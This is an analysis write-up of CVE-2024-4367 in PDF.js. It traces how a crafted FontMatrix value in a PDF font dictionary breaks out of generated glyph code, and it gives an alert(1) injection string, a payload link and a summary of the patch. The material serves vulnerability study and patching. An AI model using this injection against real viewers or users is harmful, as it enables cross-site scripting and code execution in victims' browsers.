## Introduction

### CVE-2024-4367: Arbitrary JavaScript execution in PDF.js
CVE-2024-4367 presents a critical vulnerability within the esteemed PDF.js library, widely embraced for its adeptness in rendering PDF files in web browsers.

This exploit enables adversaries to inject and execute arbitrary JavaScript code within a user's browser context, catalyzing a perilous Cross-Site Scripting (XSS) scenario. This vulnerability affects Firefox < 126, Firefox ESR < 115.11, and Thunderbird < 115.11.

Severity:




### PDF.js
[PDF.js](https://mozilla.github.io/pdf.js/) is an open-source JavaScript library developed by Mozilla that allows you to display PDF files directly within a web browser without needing any external plugins like Adobe Reader. It essentially renders PDFs within a `<canvas>` element using HTML5 technologies, making it possible to view and interact with PDFs directly in the browser.


Key features of PDF.js include:
- **Rendering PDF files:** PDF.js converts PDF files into HTML5 canvas elements, allowing them to be displayed natively in modern web browsers.
- **Cross-browser support:** Since it's based on HTML5, it works across all major browsers like Chrome, Firefox, Edge, and Safari.
- **Customization:** Developers can use PDF.js to build custom PDF viewers with their own UI, or integrate it into existing web applications.

PDF.js is commonly used in two main scenarios.
- First, it's the built-in PDF viewer in Firefox. If you've ever opened or downloaded a PDF file in Firefox, you've likely seen PDF.js at work. 
- Second, it's available as a Node module called [pdfjs-dist](https://www.npmjs.com/package/pdfjs-dist), which is downloaded around 2.4 million times weekly via NPM. In this form, it enables websites to offer embedded PDF preview features, a functionality utilized by various platforms, including Git-hosting services and note-taking apps.


### Understanding a PDF file

#### PDF Components
- **Objects:** PDF includes eight basic types of objects: Boolean values, Integer and Real numbers, Strings, Names, Arrays, Dictionaries, Streams, and the null object.
- **File structure:** describes how objects are organized in a PDF file for efficient random access and incremental update.
- **Document structure:** logical structure of the document, such as the arrangement of pages, chapters, sections, and other hierarchical elements within the PDF.
- **Content stream:** where the actual content of the PDF is stored, including the instructions for displaying text, images, and graphics on the page.
### PDF Text Representation

A **character** is an abstract symbol, whereas a **glyph** is a specific graphical shape rendering of a character and is subject to all graphical manipulations. 

PDF file has a special way to represent characters with glyphs from fonts. This allows PDF to describe, select and render glypths conveniently and efficiently.

In PDF, a **font** refers to the **font dictionary**. This font dictionary is a PDF object that contains information about the font.

For most font types, the **font program** is defined in a seperate **font file**, which is either embedded to the PDF file or obtain from external sources. This font program contains glyph descriptions used to generate glyphs.

This example illustrates the most straightforward use of a font:

**Detail:** 
```txt!
To paint glyphs, a content stream shall first identify the font to be used. The Tf operator shall specify the name of a font resource that is, an entry in the Font subdictionary of the current resource dictionary. The value of that entry shall be a font dictionary. The font dictionary shall identify the font's externally known name, such as Helvetica, and shall supply some additional information that the conforming reader needs to paint glyphs from that font. The font dictionary may provide the definition of the font program itself.
```

## Workflow

### Function Evaluation
When the application load the PDF file, it will render glyphs using an `InternalRenderTask` class. This class have a chain of function calls with `_continue()` -> `_scheduleNext()` -> `_next()`.

The `_next()` method will call a method `executeOperatorList()`.

```javascript
class InternalRenderTask {
...
async _next() {
    if (this.cancelled) {
      return;
    }

    this.operatorListIdx = this.gfx.executeOperatorList(this.operatorList, this.operatorListIdx, this._continueBound, this.stepper);

    ...
  }

}
```

In the `executeOperatorList()` method

```javascript
executeOperatorList(operatorList, executionStartIdx, continueCallback, stepper) {
    const argsArray = operatorList.argsArray;
    const fnArray = operatorList.fnArray;
    let i = executionStartIdx || 0;
    ...
    while (true) {
      ...

      fnId = fnArray[i];

      if (fnId !== _util.OPS.dependency) {
        this[fnId].apply(this, argsArray[i]);
      }
      ...
      i++;
      ...
    }
  }
```

This method will call the method at index `fnID` via `apply()` method. We can see the index of all predefined methods in the `const OPS` variable in the code.

```javascript
const OPS = {
  dependency: 1,
  setLineWidth: 2,
  ...
  setTextMatrix: 42,
  nextLine: 43,
  showText: 44,
  showSpacedText: 45,
  nextLineShowText: 46,
  ...
  paintSolidColorImageMask: 90,
  constructPath: 91
};
```

And thanks to the magic of debugging, we can extract the values of the `fnArray` to find out which methods get called in the process. There're 2 arrays passed into the `executeOperatorList()` method.





We only need to focus on the 1st array that contains number `44`, the index of `showText()` method. This is the method that draws the glyphs on the page.

When calling this method, it will then proceed to call the `paintChar()` method.

```javascript
showText(glyphs) {
    const current = this.current;
    const font = current.font;
    ...
    for (i = 0; i < glyphsLength; ++i) {
      const glyph = glyphs[i];
      ...
      if (this.contentVisible && (glyph.isInFont || font.missingFile)) {
        if (simpleFillText && !accent) {
          ctx.fillText(character, scaledX, scaledY);
        }
        else {
          this.paintChar(character, scaledX, scaledY, patternTransform);
          ...
        }
      }
      ...
    }
    ...
}
```

The `paintChar()` method declares a variable called `addToPath`, this is a variable of type `Function`. Its value gets generated by the call to `font.getPathGenerator()` which will then be evaluated.

```javascript
paintChar(character, x, y, patternTransform) {
    ...
    let addToPath;

    if (font.disableFontFace || isAddToPathSet || patternFill) {
      addToPath = font.getPathGenerator(this.commonObjs, character);
    }

    if (font.disableFontFace || patternFill) {
      ctx.save();
      ctx.translate(x, y);
      ctx.beginPath();
      addToPath(ctx, fontSize); // gets evaluated
      ...
    }
    ...
}
```

To optimize the performance of painting a glyph based on its description, a `getPathGenerator()` method is used. This is where our injected code will be passed in and generated into a function.

```javascript
getPathGenerator(objs, character) {
    if (this.compiledGlyphs[character] !== undefined) {
      return this.compiledGlyphs[character];
    }

    let cmds;
    try {
      cmds = objs.get(this.loadedName + "_path_" + character);
    } 
    ...
    if (this.isEvalSupported && _util.FeatureTest.isEvalSupported) {
      const jsBuf = [];

      for (const current of cmds) {
        const args = current.args !== undefined ? current.args.join(",") : "";
        jsBuf.push("c.", current.cmd, "(", args, ");\n");
      }
      
      return this.compiledGlyphs[character] = new Function("c", "size", jsBuf.join(""));
    }
    ...
}
```

If `isEvalSupported` is enable (which it is by default), the method will return a new Object of class `Function` with the function body being the `jsBuf` which contains the instructions that make the glyph path.

This `jsBuf` is an array of javascript codes made from `cmds`, which is the compiled intructions for each glyph.

But how exactly are these `cmd` and `args` got generated?

### Font Compilation

We know that the `cmd` and `args` are elements of an object in a `cmds` array, which is loaded from a variable `objs` with a glypth name being `this.loadedName + "_path_" + character`. An example of this would be `g_d0_f1_path_`.

If we trace back to the origin of this `objs`, which is `this.commonObjs`, we will see that it is resolved from the `WorkerTransport` class at `messageHandler.on()` with type "FontPath".

```javascript
messageHandler.on("commonobj", ([id, type, exportedData]) => {
  if (this.destroyed) {
	return;
  }

  if (this.commonObjs.has(id)) {
	return;
  }

  switch (type) {
	...
	case "FontPath":
	case "Image":
	  this.commonObjs.resolve(id, exportedData);
	  break;

	default:
	  throw new Error(`Got unknown common object type ${type}`);
  }
});
```

And when we trace further to where the data got sent to this `messageHandler`, eventually we will reach a `buildFontPaths()` method of `PartialEvaluator` class.

```javascript
static buildFontPaths(font, glyphs, handler, evaluatorOptions) {
    function buildPath(fontChar) {
      const glyphName = `${font.loadedName}_path_${fontChar}`;

      try {
        if (font.renderer.hasBuiltPath(fontChar)) {
          return;
        }

        handler.send("commonobj", [glyphName, "FontPath", font.renderer.getPathJs(fontChar)]);
      }
      ...

    for (const glyph of glyphs) {
      buildPath(glyph.fontChar);
      const accent = glyph.accent;

      if (accent && accent.fontChar) {
        buildPath(accent.fontChar);
      }
    }
  }
```

This method will call an internal `buildPath()` method for each glyph. And inside this `buildPath()` method, a `glyphName` variable is generated and later send to the `handler` which is the `messageHandler` mentioned earlier.

The compiled intructions for each glyph is generated from the call to `font.renderer.getPathJs(fontChar)`, which is the `getPathJs()` method of `CompiledFont` class.

```javascript
getPathJs(unicode) {
    const {
      charCode,
      glyphId
    } = lookupCmap(this.cmap, unicode);
    let fn = this.compiledGlyphs[glyphId];

    if (!fn) {
      try {
        fn = this.compileGlyph(this.glyphs[glyphId], glyphId);
        this.compiledGlyphs[glyphId] = fn;
      }
      ...
    }
    ...
    return fn;
  }
```

This method will call and return the data from `compileGlyph()` method.

```javascript
compileGlyph(code, glyphId) {
    if (!code || code.length === 0 || code[0] === 14) {
      return NOOP;
    }

    let fontMatrix = this.fontMatrix;
    ...
    const cmds = [{
      cmd: "save"
    }, {
      cmd: "transform",
      args: fontMatrix.slice()
    }, {
      cmd: "scale",
      args: ["size", "-size"]
    }];
    this.compileGlyphImpl(code, cmds, glyphId);
    cmds.push({
      cmd: "restore"
    });
    return cmds;
  }
```

Voila! This is where the `cmd` and `args` originated from.

By controlling the `args` variable (via the `fontMatrix.slice()`), we can use a closing parentheses to escape the function call and inject our javascript payload.

But how exactly can we control the value of the FontMatrix?

### Font Matrix

By default, the FontMatrix has a value of `[0.001 0 0 0.001 0 0]`, but many fonts usually define their own custom FontMatrix in the embedded metadata.

However, there's another way for us to define a custom FontMatrix, namely in the metadata object inside the PDF file. These value will then get loaded via the `translateFont()` method of `PartialEvaluator` class.

```javascript
async translateFont({descriptor, dict, baseDict, composite, type, firstChar, lastChar, toUnicode, cssFontInfo}) {
    ...
    properties = {
      ...
      fixedPitch: false,
      fontMatrix: dict.getArray("FontMatrix") || _util.FONT_IDENTITY_MATRIX,
      firstChar,
      lastChar,
      ...
    };
    ...
}
```

In a PDF file format, a font dictionary are made of objects, namely the Font, FontDescriptor and FontFile. For example:

```
1 0 obj
<<
/Type/Font
/BaseFont/TotallyNormalFont
/FontMatrix [0.1 0 0 0.1 0 0]
/Subtype/Type1
/FontDescriptor 2 0 R
>>
endobj

2 0 obj
<<
/Type/FontDescriptor
/ItalicAngle 0
/FontName/TotallyNormalFont
/Flags 32
/FontFile 3 0 R
>>
endobj

3 0 obj
<<
/Length 800
/Subtype/Type2
>>
stream
(binary data)
endstream
endobj
```

With this we are able to difine our custom FontMatrix. But be aware that other font type has their own pre-defined FontMatrix and it wil overwrite our custom FontMatrix.

Therefore, in order for our custom FontMatrix to not be overwritten, we need to use a Type1 font without an internal FontMatrix definition.

When we define a FontMatrix like this (parentheses are used as delimiter for strings):

```
/FontMatrix [0.1 0 0 0.1 0 (1\); alert\(1\)//)]
```

Then each element in the FontMatrix when sliced will be:

```
0.1
0
0
0.1
0
1); alert(1)//
```

And when the `getPathGenerator()` method generate the `jsBuf` array of javascript codes, it will be like:

```javascript
c.save();
c.transform(0.1 0 0 0.1 0 1); alert(1)//);
c.scale(size,-size);
c.moveTo(0,0);
c.restore();
```



With this, we have successfully injected our javascript payload into the PDF file and when loaded, will be executed.

We can see the body of the `Function` object that has been created with our injected payload.




## Proof of Concept
### Payload
- https://github.com/Masamuneee/CVE-2024-4367-Analysis

### Demo Video
#### Demo 1 (Old version of firefox PDF viewer)
[Demo 1 (Firefox)](https://www.youtube.com/watch?v=s4V5fL3AQew)

#### Demo 2 (Old version of pdfjs-dist)
[Demo 2 (pdfjs-dist)](https://www.youtube.com/watch?v=dWHtNF5-MKk)


## Patches
- The patch version here: https://github.com/mozilla/pdf.js/pull/18015. 
- Therefore i just analyze the important part of the patch that fix the vulnerability. 
### Details:

In file `src/core/evaluator.js`, they add check that the FontMatrix should be an array, the length must be 6 and each elements should be number.


In file `src/display/api.js`, they remove the variable `isEvalSupported` (which default value is true so that they can use this to upload a malicious PDF).


In file `src/display/font_loader.js`, this function remove the variable `isEvalSupported` and also remove the code that hacker can add cmd here in class `FontFaceObject` with function `getPathGenerator` (the function that create a new Function so that we can inject here to make this function eval the malicious code). 


## Mitigation

Update the version of PDF.js higher than the affected versions (<=4.1.392).

Update your Firefox, Firefox ESR, or Thunderbird to the latest available version that contains the patch for CVE-2024-4367.

## References
- https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/
- https://opensource.adobe.com/dc-acrobat-sdk-docs/pdfstandards/PDF32000_2008.pdf
- https://github.com/mozilla/pdf.js/security/advisories/GHSA-wgrm-67xf-hhpq
- https://security.snyk.io/vuln/SNYK-CHAINGUARDLATEST-FIREFOXESR-7116490
